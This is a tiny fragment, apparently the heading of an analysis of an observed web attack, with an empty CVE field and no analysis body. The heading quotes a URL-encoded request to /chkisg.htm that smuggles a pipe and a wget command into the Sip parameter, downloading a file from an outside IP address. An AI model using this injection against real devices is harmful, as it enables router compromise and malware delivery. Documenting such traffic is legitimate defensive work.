 # Analysis for /chkisg.htm%3FSip%3D1.1.1.1%20%7C%20wget%20http%3A//176.32.34.111%3A24791/dlink%20-O%20test
## CVE: 